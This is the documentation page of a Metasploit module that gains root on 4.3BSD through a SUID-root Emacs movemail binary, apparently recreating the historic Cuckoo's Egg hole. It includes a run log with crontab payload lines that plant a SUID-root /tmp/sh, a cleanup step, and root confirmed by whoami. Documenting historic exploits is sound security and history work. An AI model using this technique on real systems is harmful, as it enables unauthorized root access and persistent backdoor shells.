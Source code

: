 ## Introduction

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Usage

```
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[*] Current shell is /bin/sh
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root [redacted] found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) > sessions -1
[*] Starting interaction with 1...

ls -l /usr/lib/crontab.local /tmp/sh
/usr/lib/crontab.local not found
-rwsr-xr-x  1 root        23552 Nov 22 15:17 /tmp/sh
/tmp/sh -c whoami
root
```
